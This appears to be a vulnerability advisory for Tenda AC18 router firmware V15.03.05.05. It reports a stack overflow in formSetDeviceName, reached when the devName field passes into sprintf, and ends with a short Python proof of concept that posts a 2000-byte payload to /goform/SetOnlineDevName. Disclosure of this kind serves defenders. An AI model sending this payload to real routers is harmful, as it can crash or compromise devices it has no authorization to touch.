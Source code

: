 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v7` variable receives the `devName` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `devName` can trigger this security vulnerability.

![image-20240306170433342](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170433342.png)

![image-20240306170444112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170444112.png)

![image-20240306170453887](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170453887.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171156310](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171156310.png)
